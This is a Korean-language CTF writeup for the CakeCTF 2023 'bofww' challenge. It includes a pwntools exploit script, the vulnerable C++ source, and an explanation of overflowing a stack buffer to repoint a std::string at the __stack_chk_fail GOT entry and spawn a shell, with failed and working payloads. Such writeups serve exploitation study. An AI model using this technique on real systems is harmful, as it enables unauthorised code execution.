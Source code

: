 ```yaml
---
title: "[2023CakeCTF] bofww"
tags:
- "CTF writeup"
---
```


# Exploit code
```python
from pwn import *

context.log_level = 'debug'

p = remote('ip addr',9002)

#PIE가 적용되지 않은 binary라, 위치가 고정되어 있음
scf = 0x404050 #stack_chk_fail의 got 위치
win = 0x4012f6 #쉘을 실행할 수 있는 win함수의 위치

pause()
p.sendlineafter(b'name? ',p64(win)+b'A'*(0x128)+p64(scf)+p64(0)+p64(0x404000))
p.sendlineafter(b'you? ',b'B')
p.interactive()
```

# WriteUp
우선 주어진 바이너리의 소스코드는 다음과 같았다.
```cpp
#include <iostream>

void win() {
  std::system("/bin/sh");
}

void input_person(int& age, std::string& name) {
  int _age;
  char _name[0x100];
  std::cout << "What is your first name? ";
  std::cin >> _name;
  std::cout << "How old are you? ";
  std::cin >> _age;
  name = _name;
  age = _age;
}

int main() {
  int age;
  std::string name;
  input_person(age, name);
  std::cout << "Information:" << std::endl
            << "Age: " << age << std::endl
            << "Name: " << name << std::endl;
  return 0;
}

__attribute__((constructor))
void setup(void) {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);
}
```
win함수가 어떠한 방법으로 실행되면 쉽게 쉘을 획득할 수 있을 것 같다. 그리고 input_person에서 버퍼 오버플로우가 발생한다. 그리고 input_person의 local variable _name을 main의 local variable name에 대입한다.

cpp에서 string은 문자열 주소값과 size 등을 가지는 구조체처럼 동작한다.

만약 name의 주소값을 stack_chk_fail의 got의 주소로 바꾸고 해당 주소에 win을 대입한다면, stack smash되어 해당 함수가 작동하려 할 때 쉘을 획득할 수 있을 것이다.

이것을 하기 위해, cpp string구조체의 간단한 구조와 _name, name간의 오프셋을 획득할 수 있어야 한다.

## std::string
SSO(small string optimization)이 적용된 std::string객체의 기본적인 형태는 다음과 같다.
```cpp
class string {
public:
private:
    std::unique_ptr<char[]> m_data;
    size_type m_size;
    size_type m_capacity;
    std::array<char, 16> m_sso;
};
```
다만 실제 구현은 이와 같지 않고, 이러한 식이라고 한다.
```cpp
class string {
public:
private:
    size_type m_size;
    union {
        class {
            std::unique_ptr<char[]> m_data;
            size_type m_capacity;
        } m_large;
        std::array<char, sizeof(m_large)> m_small;
    };
};
```
결국 중요한 것은 SSO로 구현된 std::string의 경우 객체 내부에 문자열의 주소와 문자열을 물리적으로 저장한다는 것이다. 적절한 주소를 알아낼 수만 있다면 이 값을 변경할 수도 있을 것이다.

더군다나 stack의 특성상 main의 스택 프레임보다 input_person의 스택 프레임이 더 위에 위치한다. 버퍼 오버플로우가 발생하면 main의 객체의 값을 덮어쓸 수 있음을 의미한다.

## offset
pwndbg를 이용해 디버깅해보면,

![]({{ 'assets/ctf/bofww/1.png' | relative_url }})<br>
_name은 input_person함수의 rbp-0x110

![]({{ 'assets/ctf/bofww/2.png' | relative_url }})
<br>
name은 main함수의 rbp-0x40에 위치함을 알 수 있다.
<br>
그래서 offset을 계산해 보기 위해 python을 사용해 보면,
<br>
![]({{ 'assets/ctf/bofww/3.png' | relative_url }})
<br>
이렇게 된다. 그러면 페이로드를 대강 구성할 수 있게 된다.

덮을 쉘 함수 + 버퍼 더미 + string주소를 덮을 got주소 순이다.

```python
#실패한 페이로드
payload = p64(win) + b'A'*(0x130-0x8) + p64(got)
```

그러나 이대로는 문제가 풀리지 않았다. got주소 뒤에 더미가 필요한데, string객체를 덮는 것이기에 올바르게 작동하기 위해선 size 및 더미 문자열이 필요한 것으로 생각된다.

```python
#성공한 페이로드
payload = p64(win) + b'A'*(0x130-0x8) + p64(got) +p64(0) + p64(0x404000)
```
그러면 쉘을 획득할 수 있다.

![]({{ 'assets/ctf/bofww/4.png' | relative_url }})

참고로 docker를 이용해 다른 컴퓨터에서 서버를 돌리는 거라 실제 flag는 아니다.
